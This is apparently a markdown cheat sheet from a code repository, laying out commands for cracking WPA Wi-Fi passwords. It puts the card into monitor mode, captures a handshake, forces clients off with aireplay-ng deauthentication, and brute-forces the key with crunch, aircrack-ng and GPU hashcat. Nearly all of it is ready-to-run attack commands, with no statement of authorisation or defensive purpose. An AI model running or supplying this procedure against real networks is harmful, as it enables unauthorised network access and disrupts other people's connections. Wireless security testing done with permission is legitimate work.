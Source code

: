 # Cracking WPA

Start wireless interface in monitor mode

	airmon-ng check kill
	airmon-ng start wlan0
	airodump-ng --encrypt wpa wlan0mon

Start capturing packets

	airodump-ng -c 2 -w capture --bssid 00:11:22:33:44:55 wlan0mon

Deauthenticate a client

	aireplay-ng -0 5 -a 00:11:22:33:44:55 -c {STATION} wlan0mon

Verify 4-way Handshake

	pyrit -r example.pcap analyze



## Crunch

Cracking with no wordlists

	crunch 10 10 -t %%%%%%%%%% 1234567890 | aircrack-ng -w - capture-01.cap -e WIFINAME

## Hashcat

Strip pcap junk. Beware this could break your pcap file.

	pyrit -r example.pcap -o OUTPUT.pcap strip

Make a friendly Hashcat file. This will convert pcap into a hccap file.

	aircrack-ng OUTPUT.pcap -J example.hccap

Hashing with GPU. Watercooling would be nice.

	cd /usr/share/cudaHashcat
	./cudahashcat64.bin -m 2500 -a 3 example.hccap --gpu-accel=160 --gpu-loops=1024 -1?d ?1?1?1?1?1?1?1?1?1?1

